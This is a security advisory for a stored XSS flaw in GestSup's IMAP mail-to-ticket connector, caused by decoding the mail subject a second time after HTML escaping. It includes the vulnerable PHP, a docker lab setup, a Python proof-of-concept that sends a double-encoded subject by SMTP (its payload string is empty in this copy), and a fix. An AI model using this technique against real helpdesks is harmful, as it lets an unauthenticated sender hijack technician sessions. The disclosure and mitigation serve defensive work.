



# CVE-2026-102374: GestSup

**Unauthenticated stored XSS via nested MIME double decoding (IMAP OAuth/login2 connector)**

**Severity:** Medium · **Class:** Stored XSS · **Fixed in:** 3.2.62

## Summary

GestSup's IMAP OAuth/login2 connector decodes the mail subject, applies `htmlspecialchars()`, then decodes the subject a second time. An unauthenticated attacker can send a mail whose subject is a nested MIME encoded-word (an encoded-word whose content is itself an encoded-word). The first decoding reveals only harmless text, so `htmlspecialchars()` has nothing to escape, and it is the second decoding that produces raw HTML/JS. That HTML ends up stored as-is in the ticket title and description, and runs as soon as a technician displays a view where the ticket appears (the ticket list, for example) or opens the ticket directly.

## Prerequisites

1. The IMAP OAuth or login2 connector must be enabled (`imap_auth_type` = `oauth_azure`, `oauth_google` or `login2`)
2. The connector is polled (`mail2ticket.php`, cron or manual)
3. The attacker can send an email to the configured address
4. A technician must display their ticket board or open the created ticket for the script to run

No GestSup account is required for exploitation.

## Root cause

In `core/imap_oauth.php`, the subject is handled like this:

```php
//get subject with encoding fix #6068
$header=$imap_mail->getHeader();
$subject=$header->find("/Subject: \"?([^\"]*)[\";\s]/");
if($subject) {
    $subject=iconv_mime_decode($subject); //encoding pb
} else {
    $subject=$imap_mail->getSubject();
}
if(!$subject){$subject=T_('(Sans objet)');}
$subject=htmlspecialchars($subject, ENT_QUOTES, 'UTF-8');
#4543 encoding pb
if(preg_match('/=?utf-8/',$subject)){$subject = iconv_mime_decode($subject, ICONV_MIME_DECODE_CONTINUE_ON_ERROR, "UTF-8");}
```

- 1st decoding: strips the outer encoded-word and reveals a literal inner encoded-word (`=?utf-8?B?...?=`), which contains no `<`/`>` characters.
- `htmlspecialchars()`: finds nothing to escape, since the HTML is still base64-encoded.
- 2nd decoding: reveals the HTML/JS in clear text, **after** the escaping step.

This "doubly decoded" subject is then used as-is as the ticket title (`core/imap_oauth.php:580`) and concatenated into the ticket's HTML description (`core/imap_oauth.php:654`, `:672-676`), with no final purification of the whole block. On display, `ticket.php:1400` does an `echo $globalrow['description'];` with no escaping and no purification.

## Proof of concept

To prove this vulnerability I reused [my GitHub project](https://github.com/SpiizN/gestsup-docker) and modified the compose file to enable IMAPS on the test SMTP server:

```yaml
gestsup-mail:
  image: greenmail/standalone:2.1.0
  restart: always
  container_name: gestsup-mail
  environment:
    GREENMAIL_OPTS: >-
      -Dgreenmail.smtp.port=25
      -Dgreenmail.imap.port=143
      -Dgreenmail.imaps.port=993
      -Dgreenmail.hostname=0.0.0.0
      -Dgreenmail.users=support:support@example.com
      -Dgreenmail.verbose
  ports:
    - "3025:25"
```

Then, in the GestSup admin (Settings > Connector), I configured the IMAP connector with:
- Server: `gestsup-mail`, Port: `993 (secure IMAP)`
- Authentication type: `LOGIN v2` (`login2`)
- Mail address: `support`, password: `support`
- SSL verification: disabled (GreenMail self-signed certificate)

Then I used [this script](./poc/exploit.py) to send the mail with the nested subject:

```py
#!/usr/bin/env python3
import base64
import smtplib

# Payload
payload = ""
inner = "=?utf-8?B?" + base64.b64encode(payload.encode()).decode() + "?=" # encode the body
subject = "=?UTF-8?B?" + base64.b64encode(inner.encode()).decode() + "?=" # double-encode for the subject

# Mail
msg = "From: attacker@example.com\r\n"
msg += "To: support@example.com\r\n"
msg += "Subject: " + subject + "\r\n"
msg += "MIME-Version: 1.0\r\n"
msg += "Content-Type: text/plain; charset=UTF-8\r\n"
msg += "\r\n"
msg += "Hello, XSS test.\r\n"

# Send
server = smtplib.SMTP("127.0.0.1", 3025)
server.sendmail("attacker@example.com", ["support@example.com"], msg)
server.quit()
```

Once the script has run, the IMAP synchronization (`mail2ticket.php`) creates the ticket. The connector log already shows the doubly decoded subject in clear text, with no escaping, which triggers a first XSS if the import is run manually:



The title and the description stored in the database contain the raw HTML.

Opening the "All tickets" page runs the XSS:



Displaying the ticket runs the XSS as well, twice: once in the title and once in the description.



## Impact

An unauthenticated attacker can have arbitrary JavaScript executed in the session of an authenticated technician, simply by sending an email. It can lead to session theft, takeover of a technician or administrator account, or actions performed with the technician's privileges.

## Mitigation

The subject must be decoded once, completely, before any security transformation, and never decoded again after escaping:

```php
$subject = iconv_mime_decode($subject, ICONV_MIME_DECODE_CONTINUE_ON_ERROR, "UTF-8"); // single, complete decoding
$subject = htmlspecialchars($subject, ENT_QUOTES, 'UTF-8'); // last transformation before storage and display
// no second call to iconv_mime_decode() after this point, and no htmlspecialchars on a doubly decoded version
```

The whole `description` block must also be purified with `HTMLPurifier` once all of its components are assembled (header + body), and not only the mail body as is currently the case.

## References

- https://nvd.nist.gov/vuln/detail/CVE-2026-102374
- https://blog.spiizn.xyz/articles/remote-code-execution-turning-a-ticket-into-a-new-issue/